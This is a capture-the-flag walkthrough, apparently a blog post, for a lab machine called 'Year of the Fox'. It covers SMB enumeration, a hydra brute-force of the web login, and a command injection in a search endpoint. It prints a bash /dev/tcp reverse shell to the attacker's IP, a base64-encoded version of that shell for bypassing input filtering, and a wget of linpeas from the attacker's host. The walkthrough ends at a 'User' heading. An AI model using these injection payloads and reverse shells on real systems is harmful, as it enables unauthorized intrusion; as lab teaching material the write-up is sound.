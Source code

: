 ```yaml
---
published: false
---
```

Let's enumerate our first port - 80:

![port 80](https://imgur.com/xT4s0Tg.png)

We are asked for some credentials but I don't have any so far.

I added 10.10.174.149 to my /etc/hosts file as thm.fox.

Let's move onto the next port - 139 and 445. Since this machine is using smb, my spidey senses told me to use enum4linux.

<pre>enum4linux fox.thm</pre>

<pre> ==================================== 
|    Share Enumeration on fox.thm    |
 ==================================== 

	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
</pre>

Let's enumerate users:

<pre>enum4linux -U fox.thm</pre>

<pre> ================================================================== 
|    Users on fox.thm via RID cycling (RIDS: 500-550,1000-1050)    |
 ================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-978893743-2663913856-222388731
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)</pre>

So we have identified 2 users - **rascal** and **fox** as well as 2 shares - **yotf** and **IPC$**. 

From our scans, we know that there is no authentication required:

<pre>[+] Server fox.thm allows sessions using username '', password ''</pre>

However, the shares require authentication. We don't know any credentials as mentioned before. Therefore, we need a different approach.

I attempted to brute-force the web login with user rascal using hydra:

<pre>hydra -l rascal -P /usr/share/wordlists/rockyou.txt fox.thm http-head /</pre>

![hydra](https://imgur.com/xSu2LFf.png)

![web page authenticated](https://imgur.com/undefined)

This appears to be a search engine. I enter some queries in it only seems to output the following file names:

![search](https://imgur.com/khdvBUc)

I couldn't find a way of viewing these files so my next thought was to test out the actual input itself. I turned on my web proxy and used Burp Suite to intercept the web request:

This is what our request looks like:

<pre>POST /assets/php/search.php HTTP/1.1
Host: fox.thm
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 22
Origin: http://fox.thm
DNT: 1
Authorization: Basic cmFzY2FsOmthd2FzYWtp
Connection: close
Referer: http://fox.thm/

{"target":"something"}</pre>

Maybe we can test to see if this is vulnerable to SQL injection?

I sent the request to intruder, and pasted in a wordlist of SQL injection commands. No luck. 

![SQL attempt](https://imgur.com/sNmbvWz.png)

As you can see, all the responses are the same.

My next thought was testing to see if there is any character sanitisation. This was an interesting response as the input box would immediately remove any special characters such as "\ ; &" ...

If we can't input them on our web browser, let's try and input that via Burp Suite.

This is remote code execution - we need to execute our own command to idealy get a reverse shell. I set up Burp Suite intruder so I could see all the responses immediately. My aim was to essentially execute the following command:

<pre>bash -i >& /dev/tcp/10.9.6.63/4444 0>&1</pre>

Please refer to this article about reverse shells:

[Reverse Shell Cheatsheet](/cheatsheet/Reverse_Payload_Cheatsheet/)

## www-data

After **quite** a few attempts with the repeater and RCE wordlists, I was able to identify a pattern. I need to use \ to excape, then end the command with \n.

<pre>{"target":"\";[COMMAND]\n"}</pre>

So I tried this out with "ls -la":

<pre>{"target":"\";ls -la\n"}</pre>

![burp rce test](https://imgur.com/kLyVDHt.png)

As you can see above, it works. We see the file **search.php** in the web directory.

Set up netcat to listen on port 444:

<pre> nc -nvlp 4444</pre>
Let's replace ls -la with our reverse shell line.

<pre>{"target":"\";bash -i >& /dev/tcp/10.9.6.63/4444 0>&1\n"}</pre>

![invalid char](https://imgur.com/ifulJoy.png)

Invalid character...

We should try convert this one liner to base64 and decrypt it when we send the request.

<pre>┌─[user@parrot]─[~]
└──╼ $echo "bash -i >& /dev/tcp/10.9.6.63/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjYuNjMvNDQ0NCAwPiYxCg==</pre>

Now let's do the same as before, but replace the reverse shell line with our base64 value:

<pre>{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjYuNjMvNDQ0NCAwPiYxCg== | base64 -d | bash \n"}</pre>

Executing this with Burp Suite successfully gives us a connection with netcat. 

![netcat](https://imgur.com/DNg5Svu.png)

You can find the web flag in the web directory for www.

<pre>cd ~
cat web-flag.txt</pre>

I wanted to have a look at those files we saw from the search engine.

<pre>cd /var/www/files</pre>

The 3 files:

![3 files](https://imgur.com/6UWIs3J.png)

2 of them were empty, but I found something in this file:

**creds2.txt**

<pre>LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=</pre>

I feel as if this may be a rabbit hole as I am struggling to decrypt this.

I'll try and use linpeas to gather some more information.

<pre>wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
ifconfig
python -m SimpleHTTPServer 8888</pre>

On target machine:

<pre>cd /tmp
wget http://10.9.6.63:8888/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh</pre>

Have a look at the results. Something should stick out. 

![linpeas](https://imgur.com/cN0VCJd.png)

It says port 22 is open. We didn't see that in our portscan earlier because it's only listening for internal connections.

<pre>127.0.0.1:22</pre>

Maybe we can try and open this up?

## User






